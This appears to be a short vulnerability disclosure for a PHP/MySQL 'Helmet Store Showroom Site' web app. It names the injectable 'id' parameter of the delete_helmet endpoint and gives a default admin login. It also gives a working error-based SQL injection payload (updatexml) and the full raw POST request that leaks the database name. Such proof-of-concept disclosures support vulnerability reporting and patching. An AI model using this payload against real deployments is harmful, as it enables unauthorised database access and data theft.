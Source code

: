 # Helmet Store Showroom Site v1.0 by oretnom23 has SQL injection

Vulnerability Discoverer: Venus-TBLab-YangTao

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /hss/classes/Master.php?f=delete_helmet

Vulnerability location: /hss/classes/Master.php?f=delete_helmet,id

dbname =hss_db,length=6

[+] Payload:  id=2 and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id


```sql
POST /hss/classes/Master.php?f=delete_helmet HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=29mcgvmjo6mqsepd64ra2rlt4v
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

id=2 and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/204070126-9ba3bb98-ec79-4ea6-ae28-b0bbf74736cd.png)

